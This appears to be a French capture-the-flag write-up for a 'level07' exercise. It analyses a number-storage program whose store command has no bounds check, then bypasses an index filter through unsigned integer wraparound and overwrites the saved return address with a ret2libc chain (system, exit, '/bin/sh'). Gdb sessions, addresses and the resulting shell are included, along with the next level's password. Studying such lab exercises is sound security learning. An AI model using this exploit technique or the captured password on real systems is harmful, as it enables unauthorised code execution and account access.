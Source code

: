 
On est maintenant capable de modifier le saved-eip, il ne nous reste plus qu'a recuperer nos addresses pour ret2libc puis a les retranscir en nombres. 
UINT_MAX: 4294967295

system: 0xf7e6aed0 -> 4159090384
exit: 0xf7e5eb70 -> 4159040368
/bin/sh: 0xf7f897ec -> 4160264172

_____________________________________
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
______________________________________

7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC


# Level07

## Analyse

- On a ici une fonction main qui declare un tableau d'unsigned int de 100 elements et un buffer de 20 char.

- On a au debut de la fonction une suppression des argv et de l'env.

- Ensuite une boucle while(1) qui attend en entree les commandes via strcmp :
    - store : qui va call store_number avec en parametre le tab data.
    - read : qui va call read_number avec en parametre le tab data.
    - quit : qui va break la boucle.

- On a un memset en fin de boucle pour reinitialiser le buffer commande.

- Store_number :
    - declare deux unsigned int number et index
    - Call scanf() deux fois via la fonction get_unum() pour recuperer le nombre et l'index a store dans le tab data.
    - Avant cette operation il y a une verification : si l'index % 3 == 0 ou number >> 24 == 0xb7 alors return 1.
    - Si cette verification est passee store alors data[index] = number.

- Read_number :
    - declare un unsigned int index
    - initialise cette variable avec un call a scanf() via la fonction get_unum()
    - Ensuite va read l'element a l'index donne dans le tab data.

## Exploitation

- Deja on observe qu'il n'y a pas de protection d'index lors du store_number :

```
Input command: store
Number: 1
Index: 107
Completed  command successfully
```

- Cela nous permet d'overflow le tab et de read la stack

- En parcourant les index on a observe que l'index 114 est : `4158936339`
    - En hexadecimal cela donne : `F7E45513` qui correspond a notre saved eip du main : `saved eip 0xf7e45513`
    - Malheureusement nous ne pouvons pas acceder a l'index 114 car rentre dans la condition index % 3 :

```
Input command: store
Number: 1 
Index: 114
*** ERROR! ***
This index is reserved for wil!
*** ERROR! ***
Failed to do store command
```

- Bon il va falloir trouver une solution pour contourner ces protections : 
    - Dans le code disas on observe des left shift bits de 2 (qui correspond a un *4) :
```
shl     eax, 0x2
```

- Notamment dans la fonction store_number et read_number. Ces multiplications par 4 sont la pour calculer le decalage dans le tab car les valeurs en int : sizeof(int) = 4 bytes.

- Cela signifie que pour acceder aux index du tableau il est force a multiplie par 4 pour acceder au bon index.

- La vérification "index % 3" se fait sur l'index original, pas sur le résultat après multiplication.

- Maintenant que l'on sait cela, on peut chercher une valeur qui multiplie par 4 va overflow le unsigned int et donner 114.

- Prenons le u_int max, divisons le par 4 et ajoutons 114 :
    - 4,294,967,296 / 4 + 114 = 1073741938

```
Input command: store
 Number: 1
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 1
 Completed read command successfully
```

- Nous avons donc reussi a modifier notre index 114. Cela nous laisse 3 espaces contigus : 114, 115, 116.

- En reflechissant 2 minutes on peut penser a un ret2libc qui implique 3 adresses : system(), exit(), "/bin/sh".

- Allons trouver ces adresses :

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info pro
proc     program  
(gdb) info proc mappings 
process 1747
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000, +0x1a0000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

- Cast en unsigned int : 

```
0x f7e6aed0 = 4159090384 system 114 1073741938
0x f7e5eb70 = 4159040368 exit   115
0x f7f897ec = 4160264172 bin/sh 116
```

- Essayons maintenant d'entrer ces valeurs dans le programme : 

```
Input command: store
Number: 4159090384
Index: 1073741938
Completed store command successfully
Input command: store
Number: 4159040368
Index: 115
Completed store command successfully
Input command: store
Number: 4160264172
Index: 116
Completed store command successfully
```

- Plus qu'a quitter la boucle while avec la commande quit pour rediriger le flux d'execution vers notre ret2libc :

```
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```